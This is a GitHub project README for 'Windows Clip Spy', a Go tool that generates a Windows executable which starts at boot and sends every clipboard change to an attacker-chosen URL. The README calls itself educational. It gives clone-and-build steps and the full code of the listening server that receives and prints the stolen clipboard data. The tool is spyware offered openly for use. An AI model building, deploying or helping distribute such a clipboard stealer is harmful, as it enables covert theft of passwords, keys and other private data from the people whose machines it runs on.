 # 👓 Windows Clip Spy

### Description 

💻 This is a terminal tool 🔧 which generates a malicious 👿 executable to send your clipboard on each update to an attacker 🏹. Made with educational porpuses

## Purpouse 

📖 Learn 

 - how to interact with Windows to start a programm on the OS init
 - get the clipboard on updates
 - create a simple terminal tool from scratch to generate executables
 - make golang background programs

## Technologies used 📘

### Golang  (Go)

#### Pakages  📦:

 1. clipboard (Get the clipboard)
 2. go-autostart (Start on the Windows init)
 3. go-toml (Set and get config vars between the terminal tool and the final executable)

## How to use it

### Prerequisites :
 - go 1.18
#### Clone the repository 📎
    git clone https://github.com/PiterWeb/WindowsClipSpy
    cd WindowsClipSpy
#### Install all the packages 📉

    go mod install
    go mod verify

#### Build the terminal tool 👷‍♂️

    go build .
    # This will generate the tool on an executable at the root folder of the project

#### Use the tool 🔨

Open the executable and introduce the config in the terminal that will appear

#### Listen for the clipboard on the url you specified 🔊

I had prepare the code for the server with the go http package.
This code should be runned on a different folder to work well.

    // <otherfolder>/server.go
    
    package  main
    
    import (
	    "fmt"
	    "io/ioutil"
	    "log"
	    "net/http"
    )
    
    const (
	    Port = "8080"
	    Host = "localhost"
	)
	
	func main() {
		fmt.Println("Server is running on port: ", Port)
		
		http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		
			body, err  := ioutil.ReadAll(r.Body)
			
			if err !=  nil {
				log.Fatal(err)
			}
			
			fmt.Println(string(body))
		})
		
		http.ListenAndServe(Host+":"+Port, nil)
	}
	
  ---
  

	cd <otherfolder>
    go mod init github.com/PiterWeb/WindowsClipSpy/server
    go run server.go

